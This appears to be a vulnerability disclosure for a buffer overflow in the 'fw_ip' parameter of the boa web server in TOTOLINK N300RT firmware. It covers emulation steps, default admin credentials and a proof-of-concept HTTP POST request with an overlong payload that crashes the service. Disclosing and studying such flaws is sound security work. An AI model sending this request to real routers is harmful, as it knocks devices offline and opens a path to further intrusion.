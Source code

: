 ## **Description**

A buffer overflow vulnerability was discovered in the TOTOLINK firmware N300RT-Ad-V4.0.0-B20211109.1137. The vulnerability arises from the improper input validation of the `'fw_ip'` parameter in the 'formPortFw' interface of the file boa.

## ​**Affected Product**

- ​**Brand**: TOTOLINK
- ​**Product**: N300RT
- ​**Version**: V4.0.0-B20211109.1137

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d totolink ../FIRMWARE/TOTOLINK-N300RT-Ad-V4.0.0-B20211109.1137.web
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `admin`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'FUN_00415ae0' is below:
![vulner_code.png](./img/vulner_code.png)
- ​**web_get_var** retrieves POST parameters.
- **sprintf()** is used without length checks, leading to a ​buffer overflow.​

## **Proof of Concept (PoC)**
### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test. To trigger the vulner, we set the parameter 'addPortFw' to not None.
Example package
```http
POST /boafrm/formPortFw HTTP/1.1  
Host: 192.168.0.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 661  
Origin: http://192.168.0.1
Connection: close  
Referer: http://192.168.0.1/wlwps.htm
Cookie: session=1335027320  
Upgrade-Insecure-Requests: 1  
  
addPortFw=1&fw_ip=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ip_subnet=1
```

After the request the `boa` process will crash.
![result](./img/result.png)